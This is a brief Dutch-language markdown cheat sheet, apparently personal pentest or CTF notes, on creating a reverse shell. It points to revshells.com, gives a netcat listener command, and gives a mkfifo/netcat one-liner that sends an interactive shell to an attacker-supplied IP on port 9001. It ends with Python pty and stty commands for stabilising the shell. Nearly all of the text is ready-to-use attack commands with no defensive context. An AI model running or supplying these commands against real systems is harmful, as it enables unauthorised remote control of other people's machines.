

## Shell aanmaken

#### 1. Initialiseren

- Navigeren naar revshells.com
- Invoeren `<ip>` en port `9001`:

- Command uitvoeren in `CMD` tab:
    `nc -lvnp 9001`

#### 2. Identificeren van RCE exploit

- is het direct PHP shell executie of een andere vulnerability?
    - Niet zeker?:

        `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|powershell -i 2>&1|nc <ip> 9001 >/tmp/f`
    
    - Wel zeker?:

        Bijpassende commando erbij zoeken in tab `reverse`.

#### 3. Shell stabilizeren
**Commando's**

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

```
stty raw -echo; fg
```

```
export TERM=xterm
```

**Handige guides**

https://github.com/RoqueNight/Reverse-Shell-TTY-Cheat-Sheet


